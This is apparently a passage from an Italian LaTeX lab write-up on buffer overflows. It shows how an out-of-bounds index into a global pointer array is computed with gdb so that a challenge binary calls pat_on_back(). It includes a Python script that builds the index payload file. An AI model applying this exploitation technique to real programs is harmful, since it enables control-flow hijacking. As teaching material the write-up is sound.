Il nostro obiettivo sarà quello di inserire l'indirizzo di \texttt{pat\_on\_back()} all'interno dell'array \texttt{ptrs}. Questo è possibile andando a fornire in ingresso alla funzione \texttt{read()} un indice tale per cui \texttt{ptrs[indice]} punti al valore di \texttt{p}, che a sua volta punta alla funzione \texttt{pat\_on\_back()}.

La variabile \texttt{p} è all'interno dello stack del main, mentre \texttt{ptrs}, essendo un array globale, si trova nel segmento \texttt{.data}. 

L'indice \texttt{s} per l'operazione \texttt{ptrs[s]} viene calcolato come: \texttt{Indirizzo\_di\_p = Indirizzo\_di\_ptrs + (s * dimensione\_puntatore)}.

Per determinare quindi il valore da inserire come indice, dobbiamo calcolare la distanza tra \texttt{p} e \texttt{ptrs} in questo modo:

\texttt{s = (Indirizzo\_di\_p - Indirizzo\_di\_ptrs) / 4 (byte)}

Otteniamo quindi gli indirizzi di \texttt{p} e di \texttt{ptrs} tramite \texttt{gdb}. Inseriamo un breakpoint prima dell'esecuzione della funzione \texttt{read()}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_breakpoint.png}
  \caption{ptrs break}
\end{figure}

Dopodiché, vanno estratti gli indirizzi di \texttt{p} e di \texttt{ptrs} tramite \texttt{gdb}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_addresses.png}
  \caption{ptrs addresses}
\end{figure}

A questo punto va creato il payload. 

\begin{lstlisting}[language=Python]
p_addr = 0xffffd02c
ptrs_addr = 0x56559094

addr = p_addr - ptrs_addr
addr //= 4

payload = str(addr).encode() + b"\n"

with open("./payload_challenge_extra3", "wb") as f: 
    f.write(payload)

print(f"[+] Payload generato con successo! Contenuto: {payload}")
\end{lstlisting}

Una volta generato il payload, a questo punto non ci resta altro che prelevare l'informazione ed eseguire l'attacco.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX3_success.png}
  \caption{SuccessChX3}
\end{figure}